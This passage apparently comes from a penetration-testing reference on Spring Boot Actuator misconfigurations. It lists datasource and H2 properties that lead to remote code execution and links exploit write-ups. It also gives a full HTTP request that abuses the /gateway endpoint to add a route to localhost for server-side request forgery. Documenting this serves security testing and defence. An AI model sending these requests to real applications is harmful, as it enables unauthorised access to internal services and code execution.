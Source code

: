 These properties have no effect unless the `/restart` endpoint is called, which restarts the entire `ApplicationContext` and is disabled by default.

- `spring.datasource.url` - database connection string; used only for the first connection
    - [MySQL JDBC deserialization RCE](https://github.com/LandGrey/SpringBootVulExploit#0x08mysql-jdbc-deserialization-rce)
- `spring.datasource.jndiName` - databases JNDI string; used only for the first connection
- `spring.datasource.tomcat.dataSourceJNDI` - databases JNDI string; not used at all
- `spring.cloud.config.uri` - spring cloud config url; have no effect after app start, only the initial values are used
- `spring.datasource.hikari.connection-test-query` - the query to be executed before granting the connection from the pool; see [Remote Code Execution in Three Acts: Chaining Exposed Actuators and H2 Database Aliases in Spring Boot 2](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)
- `spring.h2.console.enabled` - bool value which enables/disables the embedded GUI console of the H2 database; see [H2 database console JNDI injection](https://github.com/LandGrey/SpringBootVulExploit#0x07h2-database-console-jndi-rce)

> There are many other interesting properties, but most of them do not take effect immediately after being changed

# gateway

The [/gateway](https://cloud.spring.io/spring-cloud-gateway/reference/html/#actuator-api) actuator endpoint lets you monitor and interact with a Spring Cloud Gateway application. In other words, you can define routes for the appkication and use `/gateway` actuator to trigger requests according to these routes.

There are at least the following issues:
1. Routes can provide access to hidden or internal endpoints, which can be misconfigured or vulnerable. You can fetch all available routes via `GET`-request to `/actuator/gateway/routes`
2. Full SSRF if [adding routes](https://cloud.spring.io/spring-cloud-gateway/reference/html/#creating-and-deleting-a-particular-route) does not require administrative permissions. The next request will create a route to localhost:

    ```http
    POST /actuator/gateway/routes/new_route HTTP/1.1
    Host: app
    Content-Type: application/json

    {
    "predicates": [
        {
        "name": "Path",
        "args": {
            "_genkey_0": "/new_route/**"
        }
        }
    ],
    "filters": [
        {
        "name": "RewritePath",
        "args": {
            "_genkey_0": "/new_route(?<path>.*)",
            "_genkey_1": "/${path}"
        }
        }
    ],
    "uri": "https://localhost",
    "order": 0
    }
    ```
